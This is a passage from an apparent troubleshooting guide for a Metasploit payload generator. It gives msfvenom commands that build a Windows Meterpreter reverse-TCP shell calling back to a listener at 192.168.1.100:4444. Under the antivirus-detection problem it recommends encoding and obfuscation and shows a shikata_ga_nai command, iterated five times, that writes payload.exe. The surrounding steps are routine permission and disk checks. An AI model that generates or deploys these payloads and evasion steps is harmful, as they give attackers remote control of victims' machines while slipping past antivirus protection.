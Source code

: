 ```bash
# Test parameter format
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 --help
```

#### Problem: Payload file not created
**Solution**: 
1. Check output directory permissions
2. Verify filename
3. Check disk space

```bash
# Check disk space
df -h

# Check directory permissions
ls -la payloads/

# Fix permissions if needed
chmod 755 payloads/
```

### 2. Payload Testing Issues

#### Problem: Payload doesn't execute
**Solution**: 
1. Check file permissions
2. Verify architecture compatibility
3. Test in isolated environment

```bash
# Make payload executable
chmod +x payloads/your_payload

# Check file type
file payloads/your_payload

# Test in VM
```

#### Problem: Payload detected by antivirus
**Solution**: 
1. Use encoding/obfuscation
2. Test in isolated environment
3. Use different payload types

```bash
# Use encoder
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o payload.exe
```

## Network Issues
